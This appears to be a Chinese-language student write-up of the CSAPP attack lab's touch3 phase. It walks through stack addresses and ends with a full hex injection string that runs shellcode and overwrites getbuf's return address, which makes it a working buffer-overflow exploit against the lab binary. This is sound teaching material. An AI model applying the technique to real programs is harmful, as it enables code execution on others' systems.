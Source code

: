 ![](./assets/3.%20lab3-attack/2023-08-09-13-39-34.png)
可以看到只有 `0x5561dc13` 开始的后面9个字节被改变了，这正好对应一开始push的第三个变量rbx的值，于是可以知道rbx对应\*s的地址
![](./assets/3.%20lab3-attack/2023-08-09-13-40-39.png)

而 **`0x5561dcb0~0x5561dca8` 这段内存是test函数的栈空间，其中没有存储变量，可以任意存放字符串**

于是我们就需要将cookie值存储在 `0x5561dca8` 开始的后面~~4个字节~~**9个字节**
* 这里的转换要注意，**hexmatch函数中cookie是以16进制字符串存储的，即"59b997fa"，因此我们需要输入的就是这个字符串，共9个字节(最后要补一个字符串结束标记'\0')**，而不是59b997fa这个16进制码。因此我们需要先将这个字符串转为ascll码："59b997fa"->53 57 98 57 57 55 102 97，再将它们转化为16进制码：35 39 62 39 39 37 66 61 00
* 于是我们输入的字符串长度需要为0x5561dca8 - 0x5561dc78 + 9 = 57 个字节

其中开头存储 （给rdi赋值`0x5561dca8`、push touch3函数地址 `0x4018fa`、ret） 三个指令，第41~44个字节存储getbuf函数的栈顶地址 `0x5561dc78`，第49~57个字节存储cookie `0x59b997fa`

**答案**：
```
48 c7 c7 a8 dc 61 55 /* mov    $0x5561dca8,%rdi */
68 fa 18 40 00       /* push   $0x4018fa */
c3                   /* ret */ /* 到这里共13个字节 */
00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 /* 补27个字节 */
78 dc 61 55 /* 第41~44个字节，覆盖getbuf函数的返回地址 */
00 00 00 00 /* 再补4个字节 */
35 39 62 39 39 37 66 61 00 /* 第49~57个字节，cookie值 "59b997fa" */
```
